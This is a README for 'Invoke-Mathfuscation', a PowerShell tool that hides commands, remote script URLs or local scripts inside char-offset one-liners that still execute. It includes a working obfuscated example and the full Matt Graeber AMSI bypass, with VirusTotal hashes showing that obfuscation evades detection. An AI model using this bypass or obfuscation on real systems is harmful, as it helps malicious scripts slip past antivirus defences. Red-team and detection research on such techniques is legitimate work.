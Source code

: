 # Invoke-Mathfuscation

![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscation.png)

A quick command line utility that converts individual characters of an input string into char values. It then takes a user-supplied number value and uses it to ofuscate the individual char values. Lastly, it outputs a simple obfuscated one-liner using random polymorphic variables which will execute the original string. Currently supports:

* Remote URL (ie: http://example.com/dir/remote.ps1)
* Local File (ie: C:\tmp\local.ps1)
* PowerShell Command (ie: Write-Host "Hello world!")

When prompted, specify a command to invoke, remote URL or full local path to a .ps1 file, then supply the number offset which will be added to the char values. 

Example: 
```Write-Host "Hello world!"``` using 600 as an offset:
```powershell
@(687,714,705,716,701,645,672,711,715,716,632,634,672,701,708,708,711,632,719,711,714,708,700,633,634)|%{$Pbdli=$Pbdli+[char]($_-600)};.(g`cm i?[?x])($Pbdli)
```

## VirusTotal Detections

Example: AMSI Bypass using Using Matt Graebers Reflection method:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Unmathfuscated: `3f5dcf5b5cd4eb727ed4cd6cea6bbbaa8c1c5272b60c0415084981ec30e7a66b`
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_1.png)

Mathfuscated: `5db31b84c99d9a977e629f09b4e1f7cbd525b1167959457f6b59220e4e2eb9a5`
![alt text](https://raw.githubusercontent.com/bobby-tablez/Invoke-Mathfuscation/main/mathfuscate_amsi_bypass_2.png)



*Disclaimer: I'm not a programmer*

Use at your own risk! For educational purposes only. 


